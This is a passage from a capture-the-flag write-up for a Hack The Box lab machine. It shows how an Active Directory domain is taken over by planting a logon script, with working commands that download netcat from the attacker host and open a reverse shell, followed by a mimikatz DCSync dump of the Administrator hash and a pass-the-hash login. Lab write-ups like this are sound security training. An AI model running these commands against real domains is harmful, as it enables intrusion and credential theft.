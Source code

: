 It looks like this person is logging in and out every minute so lets abuse this now. We are able to write a `bat` file in `sysvol\[domain]\scripts\` and use this to run a reverse shell whenever the user `SSA_6010` tries to login. We can check which logon script folder is from our target user by checking the permissions.

```console
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> icacls A32FF3AEAA23
A32FF3AEAA23 BLAZORIZED\RSA_4810:(OI)(CI)(F)
             BLAZORIZED\Administrator:(OI)(CI)(F)
             BUILTIN\Administrators:(I)(F)
             CREATOR OWNER:(I)(OI)(CI)(IO)(F)
             NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(RX)
             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
             BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
             BUILTIN\Server Operators:(I)(OI)(CI)(RX)
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> certutil -f -urlcache http://10.10.14.4:8888/nc.exe C:\Users\Public\nc.exe
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> echo 'C:\Users\Public\nc.exe 10.10.14.4 5555 -e cmd.exe' | Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\login.bat -Encoding ASCII
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\login.bat'
```

We wait a minute for the user to login and catch our reverse shell. From BloodHound we also see that this user is able to perform a DCSync attack.

![](../assets/images/writeups/blazorized/bloodhound-SSA.png)

We upload `mimikatz.exe` and perform the attack and get the hash of the Domain Admin.

```console
C:\Users\Public> .\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:BLAZORIZED.HTB /user:Administrator" "exit"

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 2/25/2024 11:54:43 AM
Object Security ID   : S-1-5-21-2039403211-964143010-2924010611-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: f55ed1465179ba374ec1cad05b34a5f3

$ evil-winrm -i 10.10.11.22 -u 'Administrator' -H 'f55ed1465179ba374ec1cad05b34a5f3'

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type note.txt

If you enjoyed this machine and want to learn more about DACL attacks, check out the 'DACL Attacks I' and 'DACL Attacks II' modules on HTB Academy.
```